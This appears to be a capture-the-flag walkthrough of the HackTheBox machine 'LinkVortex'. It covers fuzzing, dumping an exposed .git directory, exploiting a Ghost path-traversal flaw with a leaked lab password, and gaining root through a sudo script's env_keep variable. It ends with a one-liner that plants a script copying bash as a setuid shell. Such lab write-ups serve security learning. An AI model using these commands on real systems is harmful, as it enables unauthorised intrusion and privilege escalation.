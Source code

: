 
```
sudo nmap -sC -sV -p- 10.10.11.47 -T4 -oN nmap
```

just web 


### Vhosts Fuzzing

```bash
ffuf -u http://linkvortex.htb  -H "Host: FUZZ.linkvortex.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fc 301
```

![[Pasted image 20241223182105.png]]

### Directory Fuzzing

the `wordlist I usually use didn't catch anything /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  but  /usr/share/seclists/Discovery/Web-Content/common.txt got me some juicy directories`

```bash
ffuf -u http://dev.linkvortex.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

![[Pasted image 20241223182412.png]]

`.git` directory I will use `git-dumper to dump all the files`

### Git dumper

```bash
python3 -m venv lol ; source lol/bin/activate
pip3 install git-dumper
```


```bash
git-dumper  http://dev.linkvortex.htb/.git   git-vortex
```


### GIT enumerate

I start enumerating the git directory and I checked the `diff` between the current and the commit before that 

```bash
git diff 
```

![[Pasted image 20241223183804.png]]

### foothold the main web

![[Pasted image 20241223184720.png]]

this version of `Ghost` is vulnerable to path traversal https://github.com/0xyassine/CVE-2023-40028/tree/master


```bash
./CVE-2023-40028 -u 'admin@linkvortex.htb' -p 'OctopiFociPilfer45'
```


and we got a prompt we can use it to read file , from the diff of commit , I notice an interesting file
`/var/lib/ghost/config.production.json`
![[Pasted image 20241223185534.png]]`


ssh into user

### root

```bash
sudo -l

Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```


scripts

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

`the script first check if the CHECK_CONTENT is a non empty string , then follow the symlink and remove the extenstion if something critical is found in this part the script will stip else move the png file to the /var/quarantined `

the trick here is we control the value of `CHECK_CONTENT` so if we set a malicious script it will be ran in this if 

```bash
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
```

in order to reach that we need to get in the first if we can do that by setting a symbolic link , then running the script as `sudo` and abusing the `env_keep` to setting our malicious script at `CHECK_CONTENT`


```bash
touch image.png ; ln -s image.png link.png ; echo 'cp /bin/bash /home/bob/exploit && chmod 4777 /home/bob/exploit' > /tmp/trick ; chmod +x /tmp/trick ; export CHECK_CONTENT=/tmp/trick ; sudo /usr/bin/bash /opt/ghost/clean_symlink.sh link.png ; /home/bob/exploit -p
```
